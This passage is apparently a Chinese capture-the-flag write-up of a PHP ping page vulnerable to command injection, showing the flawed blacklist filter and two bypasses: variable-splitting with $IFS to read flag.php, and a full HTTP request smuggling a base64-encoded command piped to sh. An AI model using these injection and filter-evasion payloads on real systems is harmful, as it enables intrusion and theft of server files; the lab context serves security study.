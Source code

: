 ```plain
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

知道了是怎么回事后，我们便可以根据具体的检测方式来进行 bypass，经过尝试后发现这里可以通过拼接实现绕过：

```plain
1;a=ag;b=fl;cat$IFS$1$b$a.php
```

[![](assets/1708998334-bd2e8916ddbd0b80e1400257d8483145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143804-4336fd22-d2df-1.png)  
备注：需要注意的是如果我们使用正常的次序进行拼接的时候会依旧被检查到，导致绕不过去，有点小奇怪，所以遇到此类问题不妨调转一下次序看看，这一点在之前进行 PHP 木马免杀的时候也很是有效

[![](assets/1708998334-28da5c33ba82bb85484ded02b6f56bf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143820-4cb3cb6e-d2df-1.png)

**方式二：通过编码的方式实现绕过**

经过尝试我们也可以使用 base64 编码的方式来进行绕过：

```plain
GET /?ip=|echo$IFS$9Y2F0JElGUyQ5ZmxhZy5waHA=|base64$IFS$9-d|sh HTTP/1.1
Host: a7609141-d430-4e44-90b7-c7504683172b.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
